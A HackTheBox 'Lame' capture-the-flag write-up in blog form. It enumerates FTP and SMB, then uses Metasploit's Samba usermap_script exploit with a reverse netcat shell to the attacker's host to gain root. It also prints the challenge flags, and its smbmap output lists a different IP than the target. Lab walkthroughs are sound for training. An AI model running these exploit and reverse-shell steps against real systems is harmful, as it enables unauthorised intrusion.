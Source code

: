 ```yaml
---
layout: single
title:  "HackTheBox - Lame"
categories: 
  - HTB Easy
tags:
  - htb
  - htb-easy
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
excerpt: ""
author_profile: false
sidebar:
  nav: "navbar"
---
```


## Initial Enumeration

`nmap -sC -sV -v --min-rate=1000 10.10.10.3 -oA lame`

```
Nmap scan report for 10.10.10.3
Host is up (0.012s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.26
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2024-07-18T07:36:03-04:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 1h52m42s, deviation: 2h49m46s, median: -7m20s
```

Since anonymous FTP login is allowed, I attempted to sign in to the FTP server anonymously. However, I found that there were no files available in the FTP share.

I then attempted to interact with the SMB shares. Using `smbmap`, I found that I could enumerate shares through a null session. However, the null user only had access to the `tmp` share.

```
[*] Detected 1 hosts serving SMB                                             
[*] Established 1 SMB connections(s) and 1 authenticated session(s)          
[+] IP: 10.10.10.40:445 Name: 10.10.10.40              Status: Authenticated
      Disk       Permissions     Comment
      ----       -----------     -------
      print$     NO ACCESS       Printer Drivers
      tmp        READ, WRITE     oh noes!
      opt        NO ACCESS
      IPC$       NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
      ADMIN$     NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

Looking through the `tmp` share, we find that there is nothing of note, as the null user does not have access to most files within this share.

## Foothold

If we review the `nmap` scan, we find that this box is running the following services and versions:

* FTP: `vsFTPd 2.3.4`
* SMB: `Samba smbd 3.0.20-Debian`

If we search for possible exploits:

```
$ searchsploit vsftpd 2.3.4    
--------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                     |  Path
--------------------------------------------------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution                                                          | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                             | unix/remote/17491.rb
--------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

```
$ searchsploit samba 3.0.20 
--------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                     |  Path
--------------------------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                             | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                   | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                              | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                      | linux_x86/dos/36741.py
--------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

We will find two potential exploits that we can use.

In this case, however, the vsFTPd exploit does not work. The explanation can be found [here](https://0xdf.gitlab.io/2020/04/07/htb-lame.html#beyond-root---vsftpd).

Hence, we will proceed to use the SMB exploit instead. As our Samba version is `3.0.20`, the second exploit ('Username map script') is of interest to us.

We can thus start Metasploit using `msfconsole -q`.

Then, from the console, look for the Username map script exploit and use it.

```
msf6 > search usermap_script

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
<SNIP>
```

```
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.110.129   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.14.26
LHOST => 10.10.14.26
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
```

Finally, run the exploit.

```
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.26:4444 
[*] Command shell session 1 opened (10.10.14.26:4444 -> 10.10.10.3:44966) at 2024-07-18 08:34:42 -0400

```

From here, it appears that a shell session has started, but we do not see the `meterpreter` prompt. This implies that this is a standard shell session instead of a `meterpreter` session.

To confirm this, we should get a response if we enter `whoami`.

```
whoami
root
```

Now, we can simply upgrade our shell session to an interactive TTY session.

```
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
root@lame:/# pwd
pwd
/
```

Finally, we can obtain the flags.

```
root@lame:/root# cat root.txt
cat root.txt
3e3ca46a0b10dc42b32fe2493a2a3de7
```

```
root@lame:/home/makis# cat user.txt
cat user.txt
024ddf63a92e34e9259c85fea398ce20
```
